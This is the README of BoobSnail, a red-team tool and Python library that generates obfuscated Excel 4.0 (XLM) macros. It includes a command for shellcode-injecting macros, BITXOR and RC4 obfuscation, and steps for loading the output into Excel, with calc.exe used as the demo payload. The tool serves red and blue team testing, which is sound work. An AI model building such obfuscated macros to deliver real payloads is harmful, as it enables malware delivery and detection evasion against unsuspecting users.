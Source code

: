 <p align="center">
  <img src="assets/boobsnail.png" width=200 height=300>
</p>

![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)

Follow us on [Twitter](https://twitter.com/stm_cyber)!

# BoobSnail
BoobSnail allows generating XLM (Excel 4.0) macro. Its purpose is to support the RedTeam and BlueTeam in XLM macro generation.
Features:
- various infection techniques;
- various obfuscation techniques;  
- translation of formulas into languages other than English;
- can be used as a library - you can easily write your own generator.
 
## Building and Running
Tested on: Python 3.8.7rc1
```
pip install -r requirements.txt
python boobsnail.py
___.                ___.     _________             .__.__
\_ |__   ____   ____\_ |__  /   _____/ ____ _____  |__|  |
 | __ \ /  _ \ /  _ \| __ \ \_____  \ /    \__  \ |  |  |
 | \_\ (  <_> |  <_> ) \_\ \/        \   |  \/ __ \|  |  |__
 |___  /\____/ \____/|___  /_______  /___|  (____  /__|____/
     \/                  \/        \/     \/     \/
     Author: @_mzer0 @stm_cyber
     (...)
```
## Generators usage

```
python boobsnail.py <generator> -h
```

To display available generators type:
```
python boobsnail.py
```

### Examples
Generate obfuscated macro that injects x64 or x86 shellcode:
```
python boobsnail.py Excel4NtDonutGenerator --inputx86 <PATH_TO_SHELLCODE> --inputx64 <PATH_TO_SHELLCODE> --out boobsnail.csv
```

Generate obfuscated macro that runs calc.exe:
```
python boobsnail.py Excel4ExecGenerator --cmd "powershell.exe -c calc.exe" --out boobsnail.csv
```
### Saving output in Excel
1. Dump output to CSV file.
2. Copy content of CSV file.
3. Run Excel and create new worksheet.
4. Add new Excel 4.0 Macro (right click on Sheet1 -> Insert -> MS Excel 4.0 Macro).
5. Paste content in cell A1 or R1C1.
6. Click Data -> Text to Columns.
7. Click Next -> Set Semicolon as separator and click Finish.

## Library usage
BoobSnail shares excel4lib library that allows to create your own Excel4 macro generator.
excel4lib contains few classes that could be used during writting generator:
- excel4lib.macro.Excel4Macro - allows to defining Excel4 formulas, values variables;
- excel4lib.macro.obfuscator.Excel4Obfuscator - allows to obfuscate created instructions in Excel4Macro;
- excel4lib.lang.Excel4Translator - allows to translate formulas to another language.

The main idea of this library is to represent Excel4 formulas, variables, formulas arguments and values as python objects.
Thanks to that you are able to change instructions attributes such as: formulas or variables names, values, addresses etc. in easy way.
For example let's create simple macro that runs calc.exe
```python
from excel4lib.macro import *
# Create macro object
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=EXEC(cmd);
```
Now let's say that you want to obfuscate your macro. To do this you just need to import obfuscator and pass it to Excel4Macro object:
```python
from excel4lib.macro import *
from excel4lib.macro.obfuscator import *
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
For now excel4lib shares two obfuscation clasess:
- excel4lib.macro.obfuscator.Excel4Obfuscator uses Excel 4.0 functions such as: BITXOR, SUM etc to obfuscate your macro;
- excel4lib.macro.obfuscator.Excel4Rc4Obfuscator uses RC4 encryption to obfusacte formulas.

As you can see you can write your own obfuscator class and use it in Excel4Macro.

Sometimes you will need to translate your macro to another language for example your native language, in my case it's Polish. With excel4lib it's pretty easy.
You just need to import Excel4Translator class and call set_language.
```python
from excel4lib.macro import *
from excel4lib.lang.excel4_translator import *
# Change language
Excel4Translator.set_language("pl_PL")
# Create macro object
macro = Excel4Macro("test.csv", obfuscator=Excel4Obfuscator())
# Add variable called cmd with value "calc.exe" to the worksheet
cmd = macro.variable("cmd", "calc.exe")
# Add EXEC formula with argument cmd
macro.formula("EXEC", cmd)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc.exe";
=URUCHOM.PROGRAM(cmd);
```
For now only Polish language is supported. If you want to use other language you need to add translations in excel4lib/lang/langs directory.

For sure, you will need to create formula that takes another formula as argument. You can do this by using Excel4Macro.argument function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Create CONCATENATE formula that CONCATENATEs cmd_1 and cmd_2
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
macro.formula("EXEC", exec_arg)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";
.exe;
=EXEC(CONCATENATE(cmd,R2C1));
```
As you can see ".exe" string was passed to CONCATENATE formula as R2C1. 
R2C1 is address of ".exe" value (ROW number 2 and COLUMN number 1).
excel4lib returns references to formulas, values as addresses. References to variables are returned as their names.
You probably noted that Excel4Macro class adds formulas, variables, values to the worksheet automaticly in order
in which these objects are created and that the start address is R1C1.
What if you want to place formulas in another column or row?
You can do this by calling Excel4Macro.set_cords function.
```python
from excel4lib.macro import *
macro = Excel4Macro("test.csv")
# Column 1
# Add variable called cmd with value "calc" to the worksheet
cmd_1 = macro.variable("cmd", "calc")
# Add cell containing .exe as value
cmd_2 = macro.value(".exe")
# Column 2
# Change cords to columns 2
macro.set_cords(2,1)
exec_arg = macro.argument("CONCATENATE", cmd_1, cmd_2)
# Pass CONCATENATE call as argument to EXEC formula
exec_call = macro.formula("EXEC", exec_arg)
# Column 1
# Back to column 1. Change cords to column 1 and row 3
macro.set_cords(1,3)
# GOTO EXEC call
macro.goto(exec_call)
# Dump to CSV
print(macro.to_csv())
```
Result:
```
cmd="calc";=EXEC(CONCATENATE(cmd,R2C1));
.exe;;
=GOTO(R1C2);;
```

## Author
[mzer0](https://twitter.com/_mzer0) from [stm_cyber](https://twitter.com/stm_cyber) team!

## Articles
[The first step in Excel 4.0 for Red Team](https://blog.stmcyber.com/excel-4-0-for-red-team/)
